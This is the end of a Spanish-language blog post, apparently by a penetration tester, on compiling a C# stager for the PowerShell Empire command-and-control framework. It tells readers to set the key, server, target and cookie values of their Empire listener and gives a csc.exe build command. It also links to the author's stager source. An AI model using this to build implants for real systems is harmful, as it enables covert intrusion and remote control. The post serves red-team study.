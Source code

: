 ```
 
            // Execute the Script!
            PowerShellInstance.Invoke();
 
        }
    }
}
```

Ahora modifique este código para incluir sus variables, necesita cambiar clave (key), servidor (server), destino (target) y cookie. Si no sabe cuál es el suyo, simplemente ejecute el comando de launcher, use base64 para decodificar su script y verifique esos valores.

Para compilar, puede usar csc.exe y hacer referencia a System.Management.Automation.dll. Ejemplo: guarde su código en PSEmpireStage1.cs y use el símbolo del sistema del desarrollador.

```
csc.exe PSEmpireStage1.cs /reference:C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

¡Un video rápido de ejecución!

{% include video id="la1fr4Mpj-4" provider="youtube" %}
 
Hay mucho más por descubrir para PowerShell Empire, pero para mí fue un buen comienzo. He estado usando PowerEmpire durante casi 6 meses y no sabía todo esto.
 
El proyecto está en mi [GitHub](https://github.com/juliourena/plaintext/blob/master/PowerEmpire/PSEmpireStage1.cs).

**Dios les bendiga!**

**El servir a Cristo, no es una tarea, sino una relación. Amigos de Dios. Jn 15:15** 